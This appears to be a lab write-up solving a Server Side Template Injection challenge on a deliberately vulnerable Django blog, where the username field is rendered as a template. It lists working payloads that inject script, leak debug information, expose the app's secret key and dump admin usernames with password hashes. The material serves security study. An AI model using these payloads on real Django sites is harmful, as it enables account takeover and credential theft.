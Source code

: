 # Server Side Template Injection

Observe the [Setting Page](https://blog-vul.herokuapp.com/setting/), you can see that username is a dynamic content and displayed __Hi, Username__.

![Web page display username](https://user-images.githubusercontent.com/83699106/132437761-05b5e2dc-98e0-4c50-8cb2-7e9e0c9c33b1.png)

## Solution

Register an account.You will be realized that it control the username format and this web use Django framwork. So you can register an account with an special username.


### B1. Identify the underlying engine.

Python has some template engine such as Tornaldo, Jinja, Django, ... . Now , sign up an account with username is a formula evaluation. 

`{{ 7 * 7 }}`

But it doesn't work. 
![image](https://user-images.githubusercontent.com/83699106/132441238-1b673cff-9fd0-4fd6-b0c1-d11cb83bec05.png)


Maybe it use Django template because DJT do not allow formula evaluation by default. Trying another payload.

`{% debug %}`

![image](https://user-images.githubusercontent.com/83699106/132442170-d95e57e5-9147-4592-bc53-ef614f8ca80d.png)


__Successfully__, It displayed debug content in username. 

### B2. Exploit

After indentify the template engine that it's using is DJT. We can exploit futher.

__Cross-site scripting__
```
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}

```

__Debug information leak__
```

{% debug %}

```

__Leaking app’s Secret Key__
```
{{ messages.storages.0.signer.key }}

```
__Admin username and password hash leak__
```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}

```

To clear understand about SSTI attack and Ways to exploit Django template above. You can see [here](https://lifars.com/wp-content/uploads/2021/06/Django-Templates-Server-Side-Template-Injection-v1.0.pdf)
           
        
